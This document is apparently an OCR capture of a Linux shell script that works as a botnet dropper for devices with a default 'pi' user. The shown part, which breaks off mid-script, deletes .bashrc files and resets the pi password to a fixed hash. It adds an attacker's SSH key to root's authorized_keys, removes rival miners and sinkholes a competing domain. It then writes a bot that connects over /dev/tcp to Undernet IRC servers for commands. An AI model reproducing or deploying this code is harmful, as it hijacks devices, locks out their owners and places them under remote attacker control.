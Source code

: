 echo "127.0.0.1 bins.deutschland-zahlung.eu" >> /etc/hosts
rm -rf /root/.bashrc
rm -rf /home/pi/.bashrc

usermod -p \$6\$vGkGPKUr\$heqvOhUzvbQ66Nb0JGCijh/81sG1WACcZgzPn8A0Wn58hHXWqy5yOgTlYJEbOjhkHD0MRsAkfJgjU/ioCYDeR1 pi

mkdir -p /root/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCl0kIN33IJISIufmqpqg54D6s4J0L7XV2kep0rNzgY1S1IdE8HDef7z1ipBVuGTygGsq+x4yVnxveGshVP48YmicQHJMCIljmn6Po0RMC48qihm/9ytoEYtkKkeiTR02c6DyIcDnX3QdlSmEqPqSNRQ/XDgM7qIB/VpYtAhK/7DoE8pqdoFNBU5+JlqeWYpsMO+qkHugKA5U22wEGs8xG2XyyDtrBcw10xz+M7U8Vpt0tEadeV973tXNNNpUgYGIFEsrDEAjbMkEsUw+iQmXg37EusEFjCVjBySGH3F+EQtwin3YmxbB9HRMzOIzNnXwCFaYU5JjTNnzylUBp/XB6B"  >> /root/.ssh/authorized_keys

echo "nameserver 8.8.8.8" >> /etc/resolv.conf
rm -rf /tmp/ktx*
rm -rf /tmp/cpuminer-multi
rm -rf /var/tmp/kaiten

cat > /tmp/public.pem <<EOFMARKER
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQC/ihTe2DLmG9huBi9DsCJ90MJs
glv7y530TWw2UqNtKjPPA1QXvNsWdiLpTzyvk8mv6ObWBF8hHzvyhJGCadl0v3HW
rXneU1DK+7iLRnkI4PRYYbdfwp92nRza00JUR7P4pghG5SnRK+R/579vIiy+1oAF
WRq+Z8HYMvPlgSRA3wIDAQAB
-----END PUBLIC KEY-----
EOFMARKER

BOT=`mktemp -u 'XXXXXXXX'`

cat > /tmp/$BOT <<'EOFMARKER'
#!/bin/bash

SYS=`uname -a \| md5sum \| awk -F' ' '{print $1}'`
NICK=a${SYS:24}
while [ true ]; do

	arr[0]="ix1.undernet.org"
	arr[1]="ix2.undernet.org"
	arr[2]="Ashburn.Va.Us.UnderNet.org"
	arr[3]="Bucharest.RO.EU.Undernet.Org"
	arr[4]="Budapest.HU.EU.UnderNet.org"
	arr[5]="Chicago.IL.US.Undernet.org"
	rand=$[$RANDOM % 6]
	svr=${arr[$rand]}

	eval 'exec 3<>/dev/tcp/$svr/6667;'
	if [[ ! "$?" -eq 0 ]] ; then
			continue
	fi

	echo $NICK

	eval 'printf "NICK $NICK\r\n" >&3;'
	if [[ ! "$?" -eq 0 ]] ; then
			continue
	fi
	eval 'printf "USER user 8 * :IRC hi\r\n" >&3;'
	if [[ ! "$?" -eq 0 ]] ; then
		continue
	fi
